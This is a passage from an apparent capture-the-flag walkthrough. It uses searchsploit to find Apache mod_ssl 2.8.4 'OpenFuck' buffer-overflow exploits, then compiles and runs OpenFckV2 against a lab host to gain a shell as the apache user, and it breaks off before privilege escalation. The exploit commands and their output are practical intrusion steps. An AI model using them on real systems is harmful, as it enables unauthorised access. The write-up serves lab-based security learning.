 We can search for exploits in two places: **Google Almighty** and **Searchsploit.** I always go first to Searchsploit and, once I know a specific exploit, I search that exploit on Google. 

```bash
searchsploit mod_ssl 2.8.4
```

And here's the output:

```
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow             | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)       | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)       | unix/remote/47080.c
--------------------------------------------------------------------------------- ---------------------------------
```

Still a bit of research to do but now we know what we are looking for. And same process for the **trans2open** exploit.

## Exploitation

### Method #1

I found quite interesting the **mod_ssl/2.8.4** vulnerability and we will be using the *OpenFckV2* exploit to abuse it. You can check the source code [**here**](https://www.exploit-db.com/exploits/47080) and read a bit more about how to use it [**here.**](https://github.com/heltonWernik/OpenLuck)

Just download the **OpenFckV2.c** and compile it:

```bash
sudo gcc OpenFckV2.c -o OpenFckV2
```

Now run it with `./OpenFckV2` And you'll see the command for the different versions. Our command would be:

```bash
sudo ./OpenFckV2 0x6b 192.168.1.31 443 -c 100
```

And there we are! We have a shell! Let's see who are we:

```bash
whoami
```

*apache*

Not bad... But we were supposed to get root access straight away. If the same happened to you, here's how to fix it. We should always read all the info the terminal prints for us:
